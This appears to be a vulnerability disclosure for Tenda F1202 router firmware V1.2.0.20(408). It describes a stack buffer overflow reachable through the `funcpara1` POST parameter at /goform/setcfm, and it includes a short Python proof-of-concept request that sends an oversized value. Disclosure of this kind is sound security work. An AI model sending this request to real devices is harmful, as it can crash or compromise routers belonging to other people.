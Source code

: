 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2671.html

## Affected version

F1202 V1.2.0.20(408)

## Vulnerability details

The Tenda F1202 V1.2.0.20(408) firmware has a stack overflow vulnerability located in the `formSetCfm` function. This function accepts the `funcpara1` parameter from a POST request and passes it to the `save_list_data` function. Within `save_list_data`, the array `v10` is fixed at 64 bytes. However, since the user has control over the input of `funcpara1`, the statement `sprintf(v10, "%s.list%d", a1, v6);` leads to a buffer overflow. The user-supplied `funcpara1` can exceed the capacity of the `v10` array, thus triggering this security vulnerability.

![image-20240319133131680](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133131680.png)

![image-20240319133412555](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133412555.png)

![image-20240319133403710](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133403710.png)

## POC

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.84.101/'

# Send payload
url = url_base + 'goform/setcfm'
data = {
        'funcname': 'save_list_data', 
        'funcpara1': b'a'*0x500, 
        'funcpara2':'aaaaaa'
}

res = re.post(url, data=data)
```

![image-20240321221725157](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240321221725157.png)